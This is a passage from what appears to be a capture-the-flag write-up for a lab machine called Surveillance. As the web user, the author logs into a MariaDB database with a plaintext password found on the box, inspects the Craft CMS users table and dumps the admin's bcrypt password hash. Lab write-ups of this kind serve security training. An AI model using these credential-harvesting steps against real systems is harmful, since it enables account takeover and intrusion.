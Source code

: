 I’ll connect:

```

www-data@surveillance:/home$ mysql -h 127.0.0.1 -ucraftuser -p'CraftCMSPassword2023!' craftdb
...[snip]...
MariaDB [craftdb]>

```

There’s a lot of tables, but `users` seems most interesting:

```

MariaDB [craftdb]> describe users;
+----------------------------+---------------------+------+-----+---------+-------+
| Field                      | Type                | Null | Key | Default | Extra |
+----------------------------+---------------------+------+-----+---------+-------+
| id                         | int(11)             | NO   | PRI | NULL    |       |
| photoId                    | int(11)             | YES  | MUL | NULL    |       |
| active                     | tinyint(1)          | NO   | MUL | 0       |       |
| pending                    | tinyint(1)          | NO   | MUL | 0       |       |
| locked                     | tinyint(1)          | NO   | MUL | 0       |       |
| suspended                  | tinyint(1)          | NO   | MUL | 0       |       |
| admin                      | tinyint(1)          | NO   |     | 0       |       |
| username                   | varchar(255)        | YES  | MUL | NULL    |       |
| fullName                   | varchar(255)        | YES  |     | NULL    |       |
| firstName                  | varchar(255)        | YES  |     | NULL    |       |
| lastName                   | varchar(255)        | YES  |     | NULL    |       |
| email                      | varchar(255)        | YES  | MUL | NULL    |       |
| password                   | varchar(255)        | YES  |     | NULL    |       |
| lastLoginDate              | datetime            | YES  |     | NULL    |       |
| lastLoginAttemptIp         | varchar(45)         | YES  |     | NULL    |       |
| invalidLoginWindowStart    | datetime            | YES  |     | NULL    |       |
| invalidLoginCount          | tinyint(3) unsigned | YES  |     | NULL    |       |
| lastInvalidLoginDate       | datetime            | YES  |     | NULL    |       |
| lockoutDate                | datetime            | YES  |     | NULL    |       |
| hasDashboard               | tinyint(1)          | NO   |     | 0       |       |
| verificationCode           | varchar(255)        | YES  | MUL | NULL    |       |
| verificationCodeIssuedDate | datetime            | YES  |     | NULL    |       |
| unverifiedEmail            | varchar(255)        | YES  |     | NULL    |       |
| passwordResetRequired      | tinyint(1)          | NO   |     | 0       |       |
| lastPasswordChangeDate     | datetime            | YES  |     | NULL    |       |
| dateCreated                | datetime            | NO   |     | NULL    |       |
| dateUpdated                | datetime            | NO   |     | NULL    |       |
+----------------------------+---------------------+------+-----+---------+-------+
27 rows in set (0.001 sec)

```

There’s only one row, for Matthew the admin:

```

MariaDB [craftdb]> select admin,username,fullName,email,password from users;
+-------+----------+-----------+------------------------+--------------------------------------------------------------+
| admin | username | fullName  | email                  | password                                                     |
+-------+----------+-----------+------------------------+--------------------------------------------------------------+
|     1 | admin    | Matthew B | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe |
+-------+----------+-----------+------------------------+--------------------------------------------------------------+
1 row in set (0.001 sec)

```